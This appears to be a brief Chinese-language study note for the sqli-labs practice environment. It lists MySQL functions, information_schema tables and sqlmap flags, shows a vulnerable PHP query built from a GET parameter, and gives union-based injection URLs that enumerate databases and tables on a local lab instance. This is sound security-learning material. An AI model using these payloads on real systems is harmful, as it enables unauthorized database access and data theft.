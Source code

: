 # 系统函数

version()——MYSQL版本

user()———数据库用户名

database()——数据库名

@@datadir—数据库路径

@@version_compile_os——操作版本系统

# 字符串连接

concat(str1,str2)——无分隔符连接

concat_us(separator,str1,str2)——有分隔符连接

group_concat(str1,str2...)——连接一个组所有的字符串，并以逗号分隔



$id=$_GET['id']; $sql="SELECT * FROM user WHERE id="

注释：#或--+



# UNION 联合查询

用于合并两个或多个SELECT语句的结果集，内部语句SELECT都必须有相同数量的列

SELECT column_name(s) FROM table_name1 UNION SELECT column_name(s) FROM table_name2



注：and的运算级大于or的运算级

## 		  一个&为  &位操作，两个&&等同于and

SQLMAP参数详情：-T+表名（tables)     -D+数据库名(database)   -C+字段名(column)  --dbs 爆数据库 

information_schema.schemata 数据库自带的表，里面含有数据库名

information_schema.tables数据库表名

information_schema.columns数据库行名

### 查数据库名

http://127.0.0.1/sqli-labs-master/Less-1/?id=-1'union select 1,group_concat(schema_name),3 from information_schema.schemata--+

### 查表名

http://127.0.0.1/sqli-labs-master/Less-1/?id=-1'union select 1,group_concat(table_name),3 from information_schema.tables where table_schema='security'--+
